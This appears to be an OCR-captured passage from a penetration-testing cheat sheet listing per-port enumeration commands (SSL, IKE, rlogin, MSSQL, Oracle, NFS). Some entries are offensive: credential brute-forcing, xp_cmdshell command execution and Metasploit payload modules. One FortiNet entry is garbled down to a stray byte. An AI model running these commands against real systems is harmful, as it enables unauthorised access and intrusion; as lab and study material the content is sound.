 ```bash
sslscan $IP:443
nmap -sV --script=ssl-heartbleed $IP
```
### 500 - ISAKMP IKE
```bash
ike-scan $IP
```
### 513 - Rlogin
```bash
apt install rsh-client
rlogin -l root $IP
```
### 541 - FortiNet SSLVPN
` \x90 `

### Port 554 - RTSP

- Web interface, transfer images, streaming

### Port 1030/1032/1033/1038

- Used by RPC to connect in domain network.

### MSSQL - 1433
```bash
nmap -p 1433 -sU --script=ms-sql-info.nse $IP
sqsh -S $IP -U sa
	xp_cmdshell 'date'
  	go

#msfconsole
use auxiliary/scanner/mssql/mssql_ping
use auxiliary/scanner/mssql/mssql_login
use exploit/windows/mssql/mssql_payload
```
### Port 1521 - Oracle
```bash
oscanner -s $IP -P 1521
tnscmd10g version -h $IP
tnscmd10g status -h $IP
nmap -p 1521 -A $IP
nmap -p 1521 --script=oracle-tns-version,oracle-sid-brute,oracle-brute
#MSF
use auxiliary/admin/oracle  
use auxiliary/scanner/oracle
```
### Port 2049 - NFS
```bash
showmount -e $IP
```
